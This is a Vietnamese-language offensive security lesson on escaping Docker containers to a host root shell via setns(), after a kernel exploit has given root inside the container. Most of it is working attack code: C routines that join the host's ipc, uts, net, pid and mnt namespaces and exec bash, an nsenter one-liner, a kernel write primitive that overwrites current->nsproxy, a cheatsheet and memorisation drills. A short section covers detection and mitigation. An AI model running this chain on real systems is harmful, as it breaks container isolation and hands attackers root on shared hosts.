

> **Prerequisites**: [[13-struct-cred-patching|13. cred Patching]] · [[14-modprobe-path-overwrite|14. modprobe_path]]
> **Objectives**:
> - Hiểu Linux namespace là gì và cách container dùng chúng để isolate
> - Dùng `setns()` syscall để switch process vào host namespace
> - Kết hợp kernel exploit → root in container → namespace escape → host root shell
> - Hiểu tại sao kernel-level exploit cho phép vượt qua mọi container boundary
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Đã có kernel-level root trong container (UID=0 với full capabilities)
> - Kernel exploit đã vô hiệu hóa seccomp (hoặc seccomp không block `setns`)
> - Có thể mở `/proc/1/ns/` để lấy namespace file descriptors
>
> [!tip] Tại sao kernel exploit → namespace escape?
> Containers isolate bằng namespaces — nhưng namespaces là kernel constructs. Khi attacker đã kiểm soát được kernel (Ring 0), mọi namespace boundary đều có thể vượt qua. `setns()` đơn giản là syscall cho phép process join vào namespace bất kỳ.
>
---

## Cơ chế tấn công

### Namespace trong Linux — Brief Review

Linux có 8 loại namespace, container runtime (Docker, LXC) dùng tất cả:

| Namespace | Isolates | Kernel flag |
|-----------|---------|------------|
| `mnt` | Filesystem mounts | `CLONE_NEWNS` |
| `pid` | Process IDs | `CLONE_NEWPID` |
| `net` | Network interfaces | `CLONE_NEWNET` |
| `ipc` | SysV IPC, POSIX MQ | `CLONE_NEWIPC` |
| `uts` | Hostname, domain | `CLONE_NEWUTS` |
| `user` | User/group IDs | `CLONE_NEWUSER` |
| `cgroup` | cgroup root | `CLONE_NEWCGROUP` |
| `time` | System clocks | `CLONE_NEWTIME` |

Mỗi namespace có một **inode number** trong `/proc/PID/ns/`. Process thuộc namespace nào, namespace đó có inode khớp với `/proc/self/ns/`.

**Kiểm tra container boundary:**

```bash
# Trong container:
ls -la /proc/self/ns/
# mnt  → 'mnt:[4026532476]'   ← container mount ns
# pid  → 'pid:[4026532479]'   ← container PID ns

# Trên host:
ls -la /proc/1/ns/
# mnt  → 'mnt:[4026531840]'   ← HOST mount ns (inode khác!)
# pid  → 'pid:[4026531836]'   ← HOST PID ns
```

Inode khác nhau → đang trong isolated namespace → container boundary active.

### setns() — Cơ chế escape

`setns(fd, nstype)` cho phép process join vào namespace được represented bởi file descriptor `fd`:

```c
#include <sched.h>
int setns(int fd, int nstype);
// fd: file descriptor mở từ /proc/PID/ns/<type>
// nstype: 0 để auto-detect, hoặc CLONE_NEWNS/CLONE_NEWPID/etc.
// Return: 0 on success, -1 on error
```

**Tại sao cần kernel root trước?**

`setns()` vào namespace của process khác đòi hỏi:
1. `CAP_SYS_ADMIN` capability, hoặc
2. Cùng user namespace (không có khi process host có user namespace khác)

Sau kernel exploit, process có full capabilities → `setns()` không bị từ chối.

**Seccomp caveat**: Docker mặc định có seccomp profile block `setns`. Nhưng kernel exploit thường bypass seccomp (vì chạy trong Ring 0 trước seccomp check).

---

## Quy trình tấn công

**Môi trường**: Đang trong Docker container, đã thực hiện kernel exploit và có root + full caps trong container.

**Bước 1 — Verify đã có đủ điều kiện**

```c
#include <unistd.h>
#include <sys/capability.h>

void check_conditions() {
    // Kiểm tra UID = 0
    if (getuid() != 0) {
        printf("[-] Need root first (UID=%d)\n", getuid());
        exit(1);
    }
    printf("[+] UID = 0\n");

    // Kiểm tra /proc/1/ns/ accessible (host init process)
    if (access("/proc/1/ns/mnt", F_OK) != 0) {
        printf("[-] /proc/1/ns/mnt not accessible\n");
        exit(1);
    }
    printf("[+] /proc/1/ns/ accessible\n");

    // Confirm chúng ta đang trong container
    // (container và host init có ns inode khác nhau)
    // Đọc inode của ns hiện tại
    struct stat st_self, st_host;
    stat("/proc/self/ns/mnt", &st_self);
    stat("/proc/1/ns/mnt", &st_host);
    if (st_self.st_ino == st_host.st_ino) {
        printf("[!] Already in host namespace!\n");
    } else {
        printf("[+] In container ns (inode %lu vs host %lu)\n",
               st_self.st_ino, st_host.st_ino);
    }
}
```

> **Expected output**: UID=0, /proc/1/ns/ accessible, inode numbers khác nhau.
>
**Bước 2 — Join tất cả host namespaces**

```c
#include <fcntl.h>
#include <sched.h>

void escape_to_host() {
    // Danh sách namespaces cần join theo thứ tự
    // user phải trước (nếu có), mnt phải cuối
    const char *ns_types[] = {
        "ipc", "uts", "net", "pid", "mnt", NULL
    };

    for (int i = 0; ns_types[i]; i++) {
        char ns_path[64];
        snprintf(ns_path, sizeof(ns_path), "/proc/1/ns/%s", ns_types[i]);

        int fd = open(ns_path, O_RDONLY);
        if (fd < 0) {
            perror(ns_path);
            continue;
        }

        if (setns(fd, 0) < 0) {
            fprintf(stderr, "[-] setns(%s) failed: %s\n", ns_types[i], strerror(errno));
        } else {
            printf("[+] Joined host %s namespace\n", ns_types[i]);
        }
        close(fd);
    }
}
```

> **Expected output**: Tất cả các namespace được join thành công.
>
**Bước 3 — Spawn shell trong host namespace**

```c
void spawn_host_shell() {
    // Sau khi join host namespaces, chdir vào host filesystem
    if (chdir("/") < 0) {
        perror("chdir");
    }

    // Spawn shell — giờ đây chúng ta đang trong host context!
    char *argv[] = {"/bin/bash", "-i", NULL};
    char *envp[] = {
        "HOME=/root",
        "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        "TERM=xterm",
        NULL
    };
    execve("/bin/bash", argv, envp);
    // Fallback:
    execve("/bin/sh", (char*[]){"/bin/sh", NULL}, envp);
    perror("execve");
}
```

> **Expected output**: Bash shell với hostname = host machine, `ls /` hiển thị host filesystem.
>
**Bước 4 — Verify host access**

```bash
# Trong shell mới:
hostname        # → host machine hostname (không phải container hostname)
cat /etc/hostname
ls /home/       # → host /home directory
id              # → uid=0(root)

# Confirm đang ở host namespace:
ls -la /proc/self/ns/mnt
# → mnt:[4026531840]  ← cùng inode với /proc/1/ns/mnt ban đầu
```

---

## Biến thể & Bypass

### Dùng nsenter thay vì code tùy chỉnh

Nếu `nsenter` binary có sẵn trong container:

```bash
# Sau khi có root trong container:
nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash
# → Shell trong host namespace
```

> [!warning] nsenter bị block bởi seccomp mặc định của Docker
> Docker seccomp profile block `setns` syscall. Nếu kernel exploit đã disable seccomp → nsenter hoạt động. Nếu không, cần code tùy chỉnh gọi setns() trực tiếp sau khi bypass seccomp.
>
### Kernel exploit: copy init_nsproxy vào current task

Cách mạnh hơn (không cần `setns()`): Dùng AAW để ghi địa chỉ của `init_nsproxy` (namespace của PID 1 host) vào `current->nsproxy`:

```c
// Từ kernel exploit với AAW:
// Tìm địa chỉ init_nsproxy (global variable)
// Ghi vào current task_struct.nsproxy
unsigned long init_nsproxy_addr = kernel_base + INIT_NSPROXY_OFFSET;
unsigned long nsproxy_field     = current_task + TASK_NSPROXY_OFFSET;
AAW64(nsproxy_field, init_nsproxy_addr);
// Giờ process đang trong tất cả host namespaces mà không cần setns()!
```

---

## Cây quyết định



---

## Command Cheatsheet

**nsenter (nếu available)**

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash
```

**Manual setns (C)**

```c
const char *ns[] = {"ipc", "uts", "net", "pid", "mnt", NULL};
for (int i = 0; ns[i]; i++) {
    char p[64]; snprintf(p, sizeof(p), "/proc/1/ns/%s", ns[i]);
    int fd = open(p, O_RDONLY);
    setns(fd, 0); close(fd);
}
chdir("/");
execve("/bin/bash", (char*[]){"/bin/bash","-i",NULL}, NULL);
```

**Verify namespace escape**

```bash
ls -la /proc/self/ns/ | grep mnt    # inode phải match /proc/1/ns/mnt
cat /proc/1/mounts                  # hiện host mounts
hostname                            # host hostname
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 5 ngày.

**Drill 1 — setns loop từ nhớ**
Mục tiêu: Viết 5-namespace escape loop không nhìn code.

```c
// ipc → uts → net → pid → mnt, open + setns + close
```

Luyện cho đến khi: 5 setns calls viết ra trong 1 phút.

**Drill 2 — Verify escape**
Mục tiêu: Sau escape, confirm host namespace trong 3 lệnh.

```bash
ls -la /proc/self/ns/mnt; hostname; ls /home/
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **seccomp**: `setns` syscall từ container process là anomaly → alert ngay
> **Audit**: `openat("/proc/1/ns/mnt")` từ container PID → suspicious
> **Runtime**: Falco rule: `proc.name=bash AND container.id != host AND evt.type=setns`
>
> [!note] Mitigation
> - Seccomp profile block `setns` (Docker default — nhưng kernel exploit bypass)
> - Không dùng `--privileged` containers
> - Runtime security: Falco/Tetragon monitor `setns` syscalls
> - Patch kernel ngay khi CVE được công bố — không có mitigation hoàn hảo nào nếu kernel bị exploit thành công
>
---

## Lab Thực hành

| Platform | Setup | Tại sao phù hợp |
|----------|-------|----------------|
| Local | Docker container + kernel exploit | Full chain: exploit → cred patch → setns |
| HTB | **Carpediem** (Retired) | Container escape với kernel CVE |
| HTB | **Giveback** (Retired) | Kubernetes pod → node escape |
| CTF | Container escape challenges | setns pattern phổ biến trong CTF |

---

## Field Manual Entry

> [!abstract] Namespace Escape via setns() — Quick Reference
> **Điều kiện**: Root + full caps trong container; /proc/1/ns/ accessible; seccomp không block setns
> **Quick**: `nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash`
> **Manual**: Open `/proc/1/ns/{ipc,uts,net,pid,mnt}` → `setns(fd, 0)` × 5 → `chdir("/")` → `execve("/bin/bash")`
> **Verify**: `ls -la /proc/self/ns/mnt` inode match host; `hostname` = host
> **Alt**: AAW → overwrite `current->nsproxy` = `init_nsproxy_addr` (không cần setns syscall)
> **Ref**: [[15-namespace-escape-setns|15. Namespace Escape via setns()]]
>